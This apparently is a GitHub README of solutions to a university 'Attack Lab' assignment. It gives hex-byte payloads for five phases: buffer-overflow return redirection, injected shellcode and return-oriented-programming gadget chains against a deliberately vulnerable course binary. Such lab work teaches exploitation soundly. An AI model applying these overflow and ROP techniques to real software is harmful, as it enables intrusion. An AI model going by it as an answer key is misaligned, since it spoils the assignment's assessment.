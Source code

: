 # Attack Lab
See assignment details at attacklab.pdf.  
See guide at https://github.com/magna25/Attack-Lab/.
See also steps of phase5 at https://stackoverflow.com/questions/54602292/segmentation-fault-in-attack-lab-phase5.

.## Phase 1 Solution
```
// 40 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## Phase 2 Solution
```
// injected code with total 40 bytes
48 c7 c7 1f 25 3c 37 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch2
18 22 65 55 00 00 00 00
a0 16 40 00 00 00 00 00 
```

## Phase 3 Solution
```
// injected code with total 40 bytes
48 c7 c7 50 17 68 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// address of register and touch3
18 22 65 55 00 00 00 00
75 17 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66 00
```

## Phase 4 Solution
```
// fill with 40 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// first gadget - popq %rax
1d 18 40 00 00 00 00 00
// cookie
1f 25 3c 37 00 00 00 00
// second gadget - mov %rax to %rdi
0c 18 40 00 00 00 00 00
// address of touch2
a0 16 40 00 00 00 00 00
```

## Phase 5 Solution
```
// fill with 40 bytes
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
// gadgets
58 18 40 00 00 00 00 00
0c 18 40 00 00 00 00 00
27 18 40 00 00 00 00 00
48 00 00 00 00 00 00 00
e3 18 40 00 00 00 00 00
a1 18 40 00 00 00 00 00
bc 18 40 00 00 00 00 00
3e 18 40 00 00 00 00 00
0c 18 40 00 00 00 00 00
// address of touch3
75 17 40 00 00 00 00 00
// cookie
33 37 33 63 32 35 31 66 00
```
